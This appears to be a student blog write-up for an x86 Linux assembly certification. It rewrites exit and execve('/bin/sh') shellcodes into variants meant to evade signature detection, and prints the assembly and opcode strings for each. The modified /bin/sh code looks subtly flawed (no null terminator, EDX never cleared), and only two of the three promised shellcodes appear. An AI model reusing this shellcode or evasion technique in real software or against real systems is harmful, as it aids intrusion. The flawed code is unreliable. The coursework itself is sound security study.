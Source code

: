 ```yaml
---
title: SLAE32 - Assignment#6 [Polymorphic Shellcode]
author: bigb0ss
date: 2021-04-26 23:53:00 +0800
categories: [SLAE32, Assignment_6_Polymorphic]
tags: [slae32, assembly, x86, Polymorphic Shellcode]
image: /assets/img/post/slae32/slae32.png
---
```


<b>This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:</b>

<b>http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/</b>

<b>Student ID: SLAE-1542</b>

[SLAE32 Assignemt#6 Github](https://github.com/bigb0sss/SLAE32)

# Assignement #6 
* Take up 3 shellcodes from Shell-Storm and create polymorphic versions of them to beat pattern matching
* The polymorphic versions cannot be larger 150% of the existing shellcode
* Bonus points for making it shorter in length than original

# What is Polymorphism?
The polymorphism means the ability of an object to take on many forms. In computer science, the term polymorphism also means the ability of differnt objects/codes to respond in a unique way to the same functionality. 

# Shellcode Selection
I will use the following shellcode from the Shell-Storm to demonstrate the polymorphic shellcode. 
* sys_exit(0) - http://shell-storm.org/shellcode/files/shellcode-623.php
* /bin/sh - http://shell-storm.org/shellcode/files/shellcode-752.php


# 1) sys_exit(0)
The original shellcode from the Shell-Storm is as following:

```c
/*
Name   : 8 bytes sys_exit(0) x86 linux shellcode
Date   : may, 31 2010
Author : gunslinger_
Web    : devilzc0de.com
blog   : gunslinger.devilzc0de.com
tested on : linux debian
*/

char *bye=
 "\x31\xc0"                    /* xor    %eax,%eax */
 "\xb0\x01"                    /* mov    $0x1,%al */
 "\x31\xdb"                    /* xor    %ebx,%ebx */
 "\xcd\x80";                   /* int    $0x80 */

int main(void)
{
		((void (*)(void)) bye)();
		return 0;
}
```

The assembly for the original shellcode (`sys_exit_original.nasm`) in Intel is: 

```nasm
global _start

section .text

_start:

	xor eax, eax    ; Zeroing out EAX
	mov al, 0x1     ; Moving 1 to A low in EAX = #define __NR_exit 1 in unistd_32.h --> void exit(int status);
	xor ebx, ebx    ; Zeroing out EBX ==> int status = 0x0
	int 0x80        ; Executing exit(0)
```

Modified assembly (`sys_exit_modified.nasm`) is:

```nasm
global _start

section .text

_start:
        xor eax, eax    ; Zeroing out EAX
        inc eax         ; Increase EAX by 0x1 = #define __NR_exit 1
        xor ebx, ebx    ; Zeroing out EBX ==> int status = 0x0
        int 0x80        ; Executing exit(0)
```

And let's compile the both `.nasm` files with [compilerX86.py](https://github.com/bigb0sss/ASM_Learning/blob/master/compilerX86.py) and compare the bytes:

```bash
# python compilerX86.py -f sys_exit_original

[+] Assemble: sys_exit_original.nasm
[+] Linking: sys_exit_original.o
[+] Shellcode: "\x31\xc0\xb0\x01\x31\xdb\xcd\x80"
[+] ASM code: 0x31,0xc0,0xb0,0x01,0x31,0xdb,0xcd,0x80
[+] Creating File: shellcode.c
[+] Compiling Executable: shellcode
[+] Enjoy!

# python compilerX86.py -f sys_exit_modified

[+] Assemble: sys_exit.nasm
[+] Linking: sys_exit.o
[+] Shellcode: "\x31\xc0\x40\x31\xdb\xcd\x80"
[+] ASM code: 0x31,0xc0,0x40,0x31,0xdb,0xcd,0x80
[+] Creating File: shellcode.c
[+] Compiling Executable: shellcode
[+] Enjoy!
```

```bash
# echo "[INFO] Original:" && echo -ne "\x31\xc0\xb0\x01\x31\xdb\xcd\x80" | wc -c
[INFO] Original:
8

# echo "[INFO] Modified:" && echo -ne "\x31\xc0\x40\x31\xdb\xcd\x80" | wc -c
[INFO] Modified:
7
```

# 2) /bin/sh
The original shellcode from the Shell-Storm is as following:

```c
/*
 Title: linux/x86 Shellcode execve ("/bin/sh") - 21 Bytes
 Date     : 10 Feb 2011
 Author   : kernel_panik
 Thanks   : cOokie, agix, antrhacks
*/

/*
 xor ecx, ecx
 mul ecx
 push ecx
 push 0x68732f2f   ;; hs//
 push 0x6e69622f   ;; nib/
 mov ebx, esp
 mov al, 11
 int 0x80
*/

#include <stdio.h>
#include <string.h>

char code[] = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f"
              "\x73\x68\x68\x2f\x62\x69\x6e\x89"
              "\xe3\xb0\x0b\xcd\x80";

int main(int argc, char **argv)
{
 printf ("Shellcode length : %d bytes\n", strlen (code));
 int(*f)()=(int(*)())code;
 f();
}
```

The assembly for the original shellcode (`bin_sh_original.nasm`) in Intel is: 

```nasm
global _start

section .text

_start:
 	xor ecx, ecx
 	mul ecx
 	push ecx
 	push 0x68732f2f   ;; hs//
 	push 0x6e69622f   ;; nib/
 	mov ebx, esp
 	mov al, 11        ; execve() = #define __NR_execve 11
 	int 0x80
```

Modified assembly (`bin_sh_modified.nasm`) is:

```nasm
global _start

section .text

_start:
    xor eax, eax        ; Zero out EAX
    xor ebx, ebx        ; Zero out EBX
    xor ecx, ecx        ; Zero out ECX

    mov esi, 0x68732f2e
    inc esi
    mov edi, 0x6e69622e
    inc edi

    push esi
    push edi

    mov ebx, esp
    mov al, 0xb         ; execve() = #define __NR_execve 11
    int 0x80
```

And let's compile the both `.nasm` files with [compilerX86.py](https://github.com/bigb0sss/ASM_Learning/blob/master/compilerX86.py) and compare the bytes:

```bash
# python ../compilerX86.py -f bin_sh_original
 
[+] Assemble: bin_sh_original.nasm
[+] Linking: bin_sh_original.o
[+] Shellcode: "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
[+] ASM code: 0x31,0xc9,0xf7,0xe1,0x51,0x68,0x2f,0x2f,0x73,0x68,0x68,0x2f,0x62,0x69,0x6e,0x89,0xe3,0xb0,0x0b,0xcd,0x80
[+] Creating File: shellcode.c
[+] Compiling Executable: shellcode
[+] Enjoy!

# python ../compilerX86.py -f bin_sh_modified
 
[+] Assemble: bin_sh_modified.nasm
[+] Linking: bin_sh_modified.o
[+] Shellcode: "\x31\xc0\x31\xdb\x31\xc9\xbe\x2e\x2f\x73\x68\x46\xbf\x2e\x62\x69\x6e\x47\x56\x57\x89\xe3\xb0\x0b\xcd\x80"
[+] ASM code: 0x31,0xc0,0x31,0xdb,0x31,0xc9,0xbe,0x2e,0x2f,0x73,0x68,0x46,0xbf,0x2e,0x62,0x69,0x6e,0x47,0x56,0x57,0x89,0xe3,0xb0,0x0b,0xcd,0x80
[+] Creating File: shellcode.c
[+] Compiling Executable: shellcode
[+] Enjoy!
```

```bash
# echo "[INFO] Original:" && echo -ne "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80" | wc -c
[INFO] Original:
21

# echo "[INFO] Modified:" && echo -ne "\x31\xc0\x31\xdb\x31\xc9\xbe\x2e\x2f\x73\x68\x46\xbf\x2e\x62\x69\x6e\x47\x56\x57\x89\xe3\xb0\x0b\xcd\x80" | wc -c
[INFO] Modified:
26
```






<b>This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:</b>

<b>http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/</b>

<b>Student ID: SLAE-1542</b>

[SLAE32 Assignemt#6 Github](https://github.com/bigb0sss/SLAE32)